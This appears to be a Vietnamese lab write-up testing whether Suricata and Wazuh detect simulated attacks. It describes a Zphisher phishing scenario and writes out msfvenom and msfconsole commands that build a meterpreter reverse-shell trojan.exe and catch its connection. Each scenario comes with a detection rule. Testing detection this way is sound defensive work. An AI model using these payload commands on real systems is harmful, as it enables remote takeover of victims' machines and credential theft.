

Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy nạn nhân  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
  
Phía Wazuh  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.2 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.2 ( máy tấn công )  
set LPORT 4444  
exploit  

Mở port 80
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 

  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  

Phía Wazuh
  
## Kịch bản 3: tấn công web
Mục tiêu:
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát
  
### SQL injection

### XSS (Reflected, Restored)

### Brute Force
